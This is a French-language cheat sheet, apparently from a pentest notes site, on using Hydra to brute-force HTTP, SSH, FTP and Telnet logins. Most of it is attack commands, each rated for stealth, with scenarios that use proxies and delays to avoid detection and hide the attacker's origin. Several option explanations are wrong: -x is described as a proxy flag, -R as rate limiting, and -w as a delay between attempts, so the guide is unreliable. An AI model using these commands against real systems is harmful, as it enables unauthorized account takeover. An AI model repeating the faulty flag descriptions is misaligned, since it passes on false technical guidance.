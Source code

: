 ```yaml
---
layout: default
title: "Hydra"
---
```


#### Introduction

Hydra (ou THC-Hydra) est un outil open-source utilisé pour effectuer des attaques par force brute sur divers protocoles de connexion. Il est capable de tester des millions de combinaisons de mots de passe pour trouver les informations d'authentification correctes.

#### Installation de Hydra

**Sous Debian/Ubuntu**

```bash
sudo apt update
sudo apt install hydra
```

**Sous Windows**

1. **Télécharger Hydra pour Windows** depuis le [site de THC](https://github.com/vanhauser-thc/thc-hydra).
2. **Décompresser le fichier téléchargé** et utiliser les binaires fournis.

#### Commandes de Base

1.  **Lancer une attaque par dictionnaire sur un service HTTP**

    ```bash
    hydra -l <username> -P <password_file> <target> http-get /login
    ```

    * **Explication** : `-l` spécifie un nom d'utilisateur, `-P` indique le fichier contenant les mots de passe, `<target>` est l'adresse IP ou le domaine, et `http-get /login` précise le chemin d'URL où se trouve le formulaire de connexion.
    * **Discrétion** : Faible à moyenne. Les tentatives de connexion peuvent être détectées par des systèmes de surveillance ou des IDS.
2.  **Lancer une attaque par dictionnaire sur un service SSH**

    ```bash
    hydra -l <username> -P <password_file> ssh://<target>
    ```

    * **Explication** : `ssh://<target>` indique que l'attaque cible un service SSH.
    * **Discrétion** : Faible. Les tentatives de connexion SSH peuvent générer des alertes.
3.  **Lancer une attaque par dictionnaire sur un service FTP**

    ```bash
    hydra -l <username> -P <password_file> ftp://<target>
    ```

    * **Explication** : `ftp://<target>` indique que l'attaque cible un service FTP.
    * **Discrétion** : Faible. Les services FTP peuvent détecter les tentatives de connexion répétées.
4.  **Lancer une attaque par dictionnaire avec une liste de noms d'utilisateur**

    ```bash
    hydra -L <user_file> -P <password_file> <target> ssh
    ```

    * **Explication** : `-L` spécifie un fichier contenant plusieurs noms d'utilisateur, tandis que `-P` est le fichier de mots de passe.
    * **Discrétion** : Faible. Les tentatives avec plusieurs noms d'utilisateur peuvent générer plus de trafic réseau.
5.  **Attaque par force brute avec un protocole spécifique (ex: telnet)**

    ```bash
    hydra -L <user_file> -P <password_file> telnet://<target>
    ```

    * **Explication** : Cible un service Telnet avec une liste d'utilisateurs et de mots de passe.
    * **Discrétion** : Faible. Telnet est souvent surveillé pour des tentatives de connexion suspectes.

#### Options Avancées

1.  **Définir un nombre limité de tentatives**

    ```bash
    hydra -l <username> -P <password_file> -t 4 <target> ssh
    ```

    * **Explication** : `-t` définit le nombre de threads simultanés pour les tentatives de connexion. Par exemple, `-t 4` lance quatre threads en parallèle.
    * **Discrétion** : Moyenne à élevée. Moins de threads peuvent réduire le risque d'être détecté par les systèmes de surveillance.
2.  **Utiliser un proxy pour masquer l'origine**

    ```bash
    hydra -l <username> -P <password_file> -e ns <target> ssh -s 22 -x <proxy>
    ```

    * **Explication** : `-x` permet d'utiliser un proxy pour masquer l'origine des requêtes.
    * **Discrétion** : Haute. L'utilisation d'un proxy peut rendre l'attaque plus difficile à tracer jusqu'à son origine.
3.  **Limiter le nombre de tentatives par IP**

    ```bash
    hydra -l <username> -P <password_file> -R -e ns <target> ssh
    ```

    * **Explication** : `-R` active la limitation du nombre de tentatives pour éviter d'être bloqué par des mécanismes de défense.
    * **Discrétion** : Moyenne à élevée. Limite le nombre de tentatives pour réduire la détection.
4.  **Ajouter des délais entre les tentatives**

    ```bash
    hydra -l <username> -P <password_file> -w 5 <target> ssh
    ```

    * **Explication** : `-w` définit le délai en secondes entre chaque tentative pour éviter de générer une charge excessive et attirer l'attention.
    * **Discrétion** : Haute. Les délais réduisent le nombre de requêtes envoyées en un temps donné.
5.  **Utiliser une liste de mots de passe alternatifs**

    ```bash
    hydra -l <username> -P <password_file> -p <password> <target> ssh
    ```

    * **Explication** : `-p` permet d'ajouter un mot de passe spécifique en plus de ceux de la liste.
    * **Discrétion** : Moyenne à haute. Tester des mots de passe spécifiques peut augmenter les chances de succès tout en maintenant une discrétion accrue.

#### Exemples de Scénarios

1.  **Attaque sur un service HTTP avec un dictionnaire de mots de passe**

    ```bash
    hydra -l admin -P /path/to/passwords.txt http-get://192.168.1.10/login
    ```

    * **Explication** : Teste les mots de passe dans `/path/to/passwords.txt` pour l'utilisateur `admin` sur le service HTTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les attaques HTTP peuvent être détectées par les systèmes de journalisation des serveurs web.
2.  **Attaque sur un service FTP avec des utilisateurs et des mots de passe**

    ```bash
    hydra -L /path/to/users.txt -P /path/to/passwords.txt ftp://192.168.1.10
    ```

    * **Explication** : Teste toutes les combinaisons d'utilisateurs et de mots de passe pour un service FTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les services FTP sont souvent configurés pour détecter les tentatives de connexion brutales.
3.  **Attaque SSH avec un proxy pour masquer l'origine**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -e ns -x socks5://proxyserver:1080 ssh://192.168.1.10
    ```

    * **Explication** : Utilise un proxy SOCKS5 pour masquer l'origine des tentatives de connexion SSH.
    * **Discrétion** : Haute. L'utilisation d'un proxy ajoute une couche de dissimulation.
4.  **Attaque par dictionnaire avec un délai entre les tentatives**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -w 10 -e ns ssh://192.168.1.10
    ```

    * **Explication** : Ajoute un délai de 10 secondes entre chaque tentative de connexion pour réduire la détection.
    * **Discrétion** : Haute. Les délais peuvent éviter de déclencher des alarmes pour des tentatives de connexion rapide.



